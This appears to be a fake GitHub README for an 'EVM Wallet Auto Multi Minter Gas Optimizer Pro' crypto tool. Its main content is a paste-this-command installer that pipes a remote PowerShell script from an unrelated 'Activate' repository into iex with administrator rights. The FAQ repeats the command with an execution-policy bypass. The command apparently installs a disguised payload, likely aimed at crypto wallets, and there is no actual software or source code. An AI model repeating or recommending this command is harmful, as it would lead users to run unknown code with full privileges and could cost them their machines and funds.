

<div align="center">


<br>


# EVM Wallet Auto Multi Minter Gas Optimizer Pro
**Batch minting · Gas optimization · Web3 tools**
<br>
Premium · Full Edition · Windows



**EVM wallet multi-minter suite with batch minting automation, gas fee optimization, and multi-wallet management for Ethereum and EVM-compatible chains on Windows.**

</div>

---

> Web3 automation toolkit — batch NFT minting, gas price optimization, and multi-wallet orchestration for EVM networks.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

- ⛽ **Gas optimizer** — Real-time fee analysis and optimal transaction timing.
- 🔄 **Batch minting** — Automate multi-wallet mint operations across collections.
- 👛 **Wallet manager** — Control multiple EVM wallets from one dashboard.
- 📊 **Transaction log** — Track mints, transfers, and gas costs per wallet.
- 🖥️ **Windows native** — Built for Windows 10 and 11 64-bit.
- ⚡ **One command** — PowerShell handles download, unpack, and setup.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 4 GB minimum |
| **Disk** | 500 MB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 4 GB minimum, 500 MB free space.
</details>


TAGS
evm, crypto, wallet, blockchain, ethereum, web3, defi
